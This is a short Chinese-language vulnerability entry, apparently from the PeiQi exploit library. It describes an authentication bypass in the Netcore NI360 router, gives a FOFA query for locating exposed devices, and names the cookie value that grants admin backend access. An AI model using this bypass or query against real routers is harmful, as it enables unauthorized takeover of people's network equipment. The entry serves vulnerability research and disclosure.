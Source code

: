 ```yaml
---
title: 磊科 NI360路由器 认证绕过漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - 磊科
---
```


# 磊科 NI360路由器 认证绕过漏洞

## 漏洞描述

磊科 NI360路由器 存在认证绕过漏洞，通过添加特定的Cookie字段获取后台权限

## 漏洞影响

>磊科 NI360路由器

## FOFA

> [!NOTE]
>
> title="Netcore"

## 漏洞描述

登录页面如下

![](/img/20210924015116664853.png)

添加 Cookie字段 : **netcore_login=guest:1**

刷新后登录后台

![image-20210609175225486](/img/20210924020245751964.png)

